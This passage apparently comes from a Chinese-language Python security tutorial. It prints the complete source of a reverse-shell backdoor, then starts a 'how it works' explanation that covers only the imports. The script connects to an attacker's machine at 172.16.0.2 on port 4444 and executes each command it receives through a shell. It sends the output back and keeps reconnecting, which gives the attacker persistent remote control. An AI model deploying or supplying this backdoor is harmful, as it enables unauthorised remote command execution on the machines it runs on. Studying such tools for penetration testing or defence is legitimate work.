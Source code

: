 ```py
import socket
import subprocess
import sys
import time

HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on

def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go

def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False

def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```

## 它是如何工作的…

要像往常一样启动脚本，我们需要导入将在整个脚本中使用的模块：

```py
import socket
import subprocess
import sys
import time
```
